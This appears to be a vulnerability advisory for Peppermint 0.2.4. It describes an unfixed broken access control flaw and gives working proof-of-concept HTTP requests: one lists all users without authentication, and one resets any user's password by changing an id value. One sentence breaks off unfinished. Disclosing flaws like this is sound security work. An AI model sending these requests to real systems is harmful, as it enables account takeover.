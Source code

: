 # Peppermint-Lab  - Broken Access Control


**CVE-ID:** -


**Vendor:** [Peppermint-Lab](https://peppermint.sh)

**Affected Product:** Peppermint

**Affected Versions:** 0.2.4

**Vulnerability:** Broken Access Control

**Status:** Unfixed

**Severity:** Critical


## Details

The password reset endpoint (`/api/v1/users/resetpassword`) allows any unauthenticated user to change passwords
of any other user by just incrementing the `id` JSON parameter.


```
POST /api/v1/users/resetpassword HTTP/1.1
Host: localhost:5000
Content-Length: 35
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
sec-ch-ua-platform: "Linux"
Content-Type: application/json
Accept: */*
Origin: http://localhost:5000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:5000/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"password":"changeme5678","id":1}
```

The request above changes the password of the user 


The api endpoint `/api/v1/users/all` gives a list of all users (with their id) to unauthenticated users.


```
GET /api/v1/users/all HTTP/1.1
Host: localhost:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5000/
Content-Type: application/json
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

